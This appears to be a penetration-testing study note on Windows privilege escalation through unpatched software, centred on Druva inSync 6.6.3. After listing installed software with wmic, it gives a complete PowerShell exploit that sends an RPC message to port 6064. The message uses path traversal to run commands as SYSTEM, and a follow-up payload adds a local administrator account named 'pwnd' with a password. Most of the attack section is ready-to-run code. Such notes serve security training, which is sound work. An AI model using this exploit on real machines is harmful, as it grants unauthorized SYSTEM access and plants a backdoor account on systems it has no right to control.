 #### **<mark style="background: #FF5582A6;">Unpatched Software</mark>:**

- **<mark style="background: #BBFABBA6;">Listing Installed Software</mark>:**
  - Use `wmic` tool to list installed software and versions.
  - May not return all installed programs, so check additional traces.

```cmd
# List installed software with versions
wmic product get name,version,vendor
```

- **<mark style="background: #BBFABBA6;">Exploitation Strategy</mark>:**
  - Search for exploits online on platforms like exploit-db, packet storm, or search engines.

```powershell
# Google search for vulnerabilities in installed software
site:exploit-db.com [SoftwareName] [Version] exploit
```

#### **<mark style="background: #FF5582A6;">Druva inSync 6.6.3 Exploit</mark>:**

- **<mark style="background: #BBFABBA6;">Vulnerability Overview</mark>:**
  - Vulnerable to privilege escalation.
  - RPC server on port 6064 with SYSTEM privileges (localhost only).
  - Procedure 5 allows executing any command.

- **<mark style="background: #BBFABBA6;">Original Vulnerability (6.5.0 and prior)</mark>:**
  - Allowed any command execution without restrictions.
  - Initially designed for remote execution of specific binaries.

- **<mark style="background: #BBFABBA6;">Patch (Ineffective)</mark>:**
  - Checked command start with "C:\ProgramData\Druva\inSync4\".
  - Path traversal attack bypassed this control.

- **<mark style="background: #BBFABBA6;">Exploitation Steps</mark>:**
  - Understand communication on port 6064 (hello, procedure 5, length, command).
  - Execute PowerShell exploit:

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

  - Change payload for desired action, e.g., adding a user with admin privileges.

```powershell
# Updated payload
$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"
```

- **<mark style="background: #BBFABBA6;">Verification after Exploitation</mark>:**
  - Confirm created user and group memberships:

```powershell
# Check user information
net user pwnd
```

  - Run command prompt as administrator:

```powershell
# Run Command Prompt as Pwnd
runas /user:pwnd "cmd.exe"
```
